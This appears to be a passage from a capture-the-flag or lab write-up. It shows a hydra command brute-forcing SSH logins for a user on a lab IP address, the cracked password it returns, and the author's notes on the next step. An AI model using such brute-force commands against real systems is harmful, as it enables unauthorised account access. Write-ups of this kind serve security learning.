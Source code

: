 ```bash
$ hydra -l simeon -P bruteforce_list  ssh://10.10.161.63

[22][ssh] host: 10.10.161.63   login: simeon   password: scelerisque

```

I failed to notice that in the [[message-to-simeon.txt]], there is a phrase that indicates that the password for simeon is in the webpage in plaintext in [[simeon's page]] (i assumed the next step was to bruteforce simeon but only attempted files such as rockyou.txt)

Now we can log into simeon's account. Let us use this account to get [[COMPUTER INFORMATION]]

